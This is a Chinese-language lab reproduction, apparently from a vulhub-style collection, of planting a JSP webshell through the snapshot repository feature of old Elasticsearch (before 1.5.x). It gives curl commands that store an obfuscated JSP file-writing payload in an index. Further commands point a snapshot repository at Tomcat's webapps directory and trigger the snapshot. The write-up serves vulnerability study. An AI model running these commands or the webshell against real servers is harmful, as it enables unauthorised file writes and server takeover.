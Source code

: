 # Elasticsearch 1.5.x 后台getshell

### 一、漏洞简介

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项path.repo中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

### 二、漏洞影响

Elasticsearch 1.5.x

### 三、复现过程

测试环境

编译与启动测试环境：


```
docker-compose build
docker-compose up -d
```

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在/usr/local/tomcat，web目录是/usr/local/tomcat/webapps；ElasticSearch目录在/usr/share/elasticsearch。

我们的目标就是利用ElasticSearch，在/usr/local/tomcat/webapps目录下写入我们的webshell。

**漏洞复现**

首先创建一个恶意索引文档：


```bash
curl -XPOST http://url:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

再创建一个恶意的存储库，其中location的值即为我要写入的路径。

园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。


```bash
curl -XPUT 'http://url:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
```

存储库验证并创建:


```bash
curl -XPUT "http://url:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

完成！

访问`http://url:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://url:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

![](images/15890027378183.png)


参考链接

https://vulhub.org/#/environments/elasticsearch/WooYun-2015-110216/